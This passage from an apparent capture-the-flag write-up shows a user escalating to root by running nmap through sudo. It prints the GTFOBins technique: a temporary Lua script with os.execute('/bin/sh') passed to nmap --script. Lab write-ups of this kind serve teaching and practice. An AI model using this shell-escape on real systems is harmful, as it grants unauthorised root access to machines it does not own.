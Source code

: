 Nmap! `jens` can run `/usr/bin/nmap`  as `root`.

This is our shot at privilege escalation to `root` because of known techniques which exist for `nmap`.

I came across [this webpage](https://gtfobins.github.io/gtfobins/nmap/) which details how to achieve a shell using `nmap`. The code to achieve this is as follows:

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

![Screen Shot 2019-05-30 at 11.52.04 AM.png](/assets/images/screen-shot-2019-05-30-at-11.52.04-am.png)

Woohoo! we got `root`!

Time to _capture the flag_...

![Screen Shot 2019-05-30 at 11.54.10 AM.png](/assets/images/screen-shot-2019-05-30-at-11.54.10-am.png)

Finally! We did it!

#### My Thoughts
